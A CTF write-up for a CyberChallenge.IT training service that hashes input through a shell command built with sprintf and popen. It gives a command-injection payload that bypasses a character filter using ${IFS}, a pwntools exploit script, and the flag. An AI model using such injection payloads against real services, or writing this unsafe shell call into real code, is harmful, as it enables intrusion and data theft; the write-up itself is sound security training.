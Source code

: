 ```yaml
---
date: '2023-09-26T21:57:01Z'
draft: true
title: 'CCIT Training - Inverting SHA256 For Fun And Profit'

categories: ["Writeups"]
tags: ["pwn", "code injection"]
author: "leo_something"
---
```


## Remote host

```bash
nc sha256.challs.cyberchallenge.it 9403
```

---

## Checksec

![checksec](Inverting_SHA256_checksec.png)

---

## Service description

This service allows you to send an input string and get the corresponding SHA256 hash digest. The input hash is then compared to the flag hash and if the two match you'll get a nice congratulations message. The plain text you pass to the program must start with `CCIT{` and end with `}`, also it mustn't contain the following chars: `'`, `\t`, `\x20`,  `*` and `?`.

---

## Solution (bash code injection)

#### Bash code injection

Looking closely at the hashing function I noticed that the hash is calculated with a `bash command`:
```c
__sprintf_chk(sha256_hash, 1LL, 1024LL, "echo -n \"%s\" | sha256sum | cut -f 1 -d \\ ", plain_text);

cmd_output = popen(sha256_hash, "r");
```

So we should probably be able to inject some code to print the flag. The only problem are the forbidden chars.

---

## Payload

I created the following payload to bypass all filters:
```
CCIT{";cat${IFS}flag.txt;#}
```

#### explanation:
- the payload must start with `CCIT{`,
- then we need to exit the quoting of the `echo command` with `"`,
- then we put `;` to concatenate a command,
- `cat` is the command to print,
- `${IFS}` is an enviromental variable containing a space (to bypass `\x20` char filter),
- `flag.txt` is the argument to the command `cat`,
- Then we put `;` to concatenate a comment,
- `#` is used in bash to create an inline comment, we use it to remove the next part of the command which is doing the piping to `sha256sum` and `cut`,
- then we need to end the payload string with `}`.

---

## Final exploit

```python
from pwn import *

exe = ELF("./inverting_sha256_4fap")

def conn():
	if args.GDB:
		r = gdb.debug([exe.path])
	elif args.REMOTE:
		r = remote("sha256.challs.cyberchallenge.it", 9403)
	else:
		r = process([exe.path])
	
	return r

r = conn()
payload = b"CCIT{\";cat${IFS}flag.txt;#}"
r.sendlineafter(b"Input: ", payload)
  
r.interactive()
```
#### P.S:
Using hex encoded chars like `\x20` doesn't work because the `\` is escaped by `fgets`.

---

## Flag
```
CCIT{Inj3cTioN_att4cKs_R_n0t_only_1n_W3B_cHallenge5}
```
